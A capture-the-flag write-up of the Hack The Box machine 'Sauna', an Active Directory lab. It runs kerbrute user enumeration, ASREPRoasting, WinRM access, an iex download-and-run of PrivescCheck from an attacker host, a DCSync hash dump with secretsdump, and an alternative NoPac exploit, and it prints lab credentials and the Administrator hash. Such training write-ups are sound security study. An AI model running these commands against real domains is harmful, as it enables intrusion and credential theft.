


# Hack The Box - Sauna



Sauna is an Easy Windows machine centered on Active Directory abuse. The path is: enumerate the web app, derive usernames from employee names, ASREPRoast a valid account, use WinRM for initial access, recover an auto-logon password, then use DCSync to dump the Administrator hash and get SYSTEM.

## Reconnaissance

I started with host enumeration and added the domain information for `EGOTISTICAL-BANK.LOCAL` and `sauna.htb` to my hosts file. The target was a Windows domain controller named `SAUNA`, and the scan exposed DNS, HTTP, Kerberos, LDAP, SMB, and WinRM.

```bash
writehosts htb '10.129.95.180 sauna.htb SAUNA SAUNA.EGOTISTICAL-BANK.LOCAL EGOTISTICAL-BANK.LOCAL'
cme smb sauna.htb -u '' -p ''
nmap -sVC -T4 -Pn -vv -oA ./nmap/full_tcp_scan -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 sauna.htb
```

The HTTP service hosted an `Egotistical Bank` website, which became the source of username candidates.



## Username Discovery

I pulled employee names from the site and generated possible usernames with `username-anarchy`. The goal was to find one valid account that could be ASREPRoasted.


```bash
cat usernames.txt
/opt/sectools/misc/username-anarchy/username-anarchy -i usernames.txt > users.txt
```

Then I used `kerbrute` to validate usernames against Kerberos.

```bash
/opt/sectools/ad/kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.129.95.180 users.txt
```

That identified a valid account:

```text
fsmith@EGOTISTICAL-BANK.LOCAL
```

## ASREPRoast

With a valid user, I performed ASREPRoasting and captured a crackable hash for `fsmith`.

```bash
cme ldap 10.129.95.180 -u ad_users.txt -p '' --asreproast ASREProastables.txt
```

I cracked the hash with Hashcat and recovered the password:

```text
fsmith : Thestrokes23
```

This password worked over SMB and WinRM.

## Initial Access

I connected with Evil-WinRM as `fsmith` and read the user flag from the desktop.

```bash
evil-winrm -i SAUNA -u fsmith -p 'Thestrokes23'
```

That gave me a shell as:

```text
egotisticalbank\fsmith
```

## Auto-Logon Creds

Next I ran `PrivescCheck`, which reported cleartext WinLogon credentials. The discovered credentials belonged to `svc_loanmgr`.

```powershell
iex (new-object net.webclient).downloadstring("http://10.10.14.14/pwsh/PrivescCheck.ps1"); Invoke-PrivescCheck
```

The recovered credentials were:

```text
svc_loanmgr : Moneymakestheworldgoround!
```

The username in the registry was slightly off, so I corrected it to `svc_loanmgr`.

## DCSync Rights

I logged in as `svc_loanmgr` with WinRM and checked the account’s groups and privileges.

```bash
evil-winrm -i SAUNA -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

`svc_loanmgr` had `SeMachineAccountPrivilege` and, more importantly, BloodHound/Invoke-ADEnum showed it had DCSync rights through `DS-Replication-Get-Changes-All`.

## DCSync Attack

With those rights, I dumped the domain hashes using `secretsdump`.

```bash
secretsdump.py svc_loanmgr:'Moneymakestheworldgoround!'@EGOTISTICAL-BANK.LOCAL
```

That returned the Administrator NT hash:

```text
823452073d75b9d1cf70ebdf86c7f98e
```

I then used that hash with Evil-WinRM to become Administrator and read the root flag.

## Optional NoPac Path

The box was also vulnerable to NoPac, allowing an alternate route to the same goal. I confirmed the vulnerability with the `nopac` module, then used `noPac.py` to impersonate `administrator` and dump credentials.

```bash
cme smb SAUNA -u 'svc_loanmanager' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -M nopac
python noPac.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!' -dc-ip 10.129.95.180 -dc-host SAUNA --impersonate administrator -dump -use-ldap
```

After that, I used the Administrator hash for final access.

## Attack Path

- **Enumerate the website** — gather employee names for username generation.
- **Find valid usernames** — use `kerbrute` to identify `fsmith`.
- **ASREPRoast** — crack the hash and get `fsmith` credentials.
- **WinRM in** — read the user flag.
- **Run PrivescCheck** — recover `svc_loanmgr` autologon credentials. 
- **Check AD rights** — confirm DCSync capability.
- **Dump hashes** — use `secretsdump` for Administrator NTLM.
- **Become Administrator** — pass the hash and read root.
